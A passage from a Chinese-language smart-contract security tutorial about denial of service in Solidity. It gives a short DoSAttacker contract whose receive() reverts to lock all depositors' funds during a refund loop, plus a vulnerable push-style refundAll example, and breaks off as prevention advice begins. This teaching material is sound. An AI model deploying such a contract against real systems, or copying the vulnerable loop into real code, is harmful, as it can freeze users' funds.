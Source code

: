 ### 4.2 攻击合约

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

interface IDoSGame {
    function deposit() external payable;
    function refund() external;
}

contract DoSAttacker {
    IDoSGame public game;
    
    constructor(address _gameAddress) {
        game = IDoSGame(_gameAddress);
    }
    
    // 参与游戏
    function attack() public payable {
        game.deposit{value: msg.value}();
    }
    
    // 💣 拒绝接收 ETH
    receive() external payable {
        revert("I refuse to accept ETH!");
    }
}
```

### 4.3 攻击流程

1. 多个正常用户调用 `deposit()` 存款
2. 攻击者部署 `DoSAttacker` 合约
3. 攻击者调用 `attack()` 参与游戏
4. 管理员尝试调用 `refund()` 退款
5. 当循环到攻击者的合约时，`receive()` 函数 revert
6. 整个 `refund()` 函数失败
7. **所有用户的资金被永久锁定！**

---

## 5. 预防方法

很多逻辑错误都可能导致智能合约拒绝服务，所以开发者在写智能合约时要万分谨慎。

### ✅ 5.1 使用 Pull 而非 Push 模式

**错误的 Push 模式**：
```solidity
// ❌ 批量推送资金给用户
function refundAll() public {
    for (uint i = 0; i < users.length; i++) {
        users[i].transfer(amounts[i]); // Push
    }
}
```
